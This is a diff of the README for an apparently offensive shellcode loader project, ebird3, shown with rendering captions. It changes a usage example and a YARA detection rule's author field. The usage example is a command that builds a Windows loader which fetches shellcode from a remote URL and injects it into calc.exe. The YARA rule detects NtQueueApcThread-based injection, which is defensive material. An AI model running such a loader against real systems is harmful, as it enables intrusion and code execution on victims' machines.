

Before and after one commit to grisuno/ebird3, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -65,7 +65,7 @@ sudo apt install mingw-w64
 ```bash
 ./gen_ebird3.sh \
   --target windows \
-  --url "http://192.168.1.100/shellcode.bin" \
+  --url "http://192.168.1.100/shellcode.txt" \
   --process-name "C:/Windows/System32/calc.exe" \
   --key 0x33
 ```
@@ -152,7 +152,7 @@ Heuristic: Suspicious Memory Allocation + APC
 ```yara
 rule ebird3_NtQueueApcThread_Heuristic {
     meta:
-        author = "EDR Team"
+        author = "LazyOwn BlueTeam"
         description = "Detects use of NtQueueApcThread for shellcode execution"
 
     strings:
````
